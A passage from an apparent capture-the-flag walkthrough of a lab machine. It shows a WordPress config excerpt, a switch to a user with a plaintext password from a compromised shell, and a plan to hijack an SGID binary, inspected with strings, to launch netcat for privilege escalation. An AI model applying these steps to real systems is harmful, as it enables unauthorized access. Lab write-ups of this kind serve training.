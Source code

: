 ```
/**#@-*/

/**
 * WordPress Database Table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';

www-data@midnight:/var/www/html/wordpress$ su jose 
su jose 

Password: 645dc5a8871d2a4269d4cbe23f6ae103

jose@midnight:/var/www/html/wordpress$ 
```
// And now we get to escalate privileges, I run linpeas and I find that SGID is showing /usr/bin/status, so I didn´t know what it was, I did a strings command and I found out that is a service for binary, so I thought of setting our own to call a netcat
```
jose@midnight:/var/www/html/wordpress$ strings /usr/bin/status

strings /usr/bin/status
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
printf
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH
[]A\A]A^A_
Status of the SSH server:
```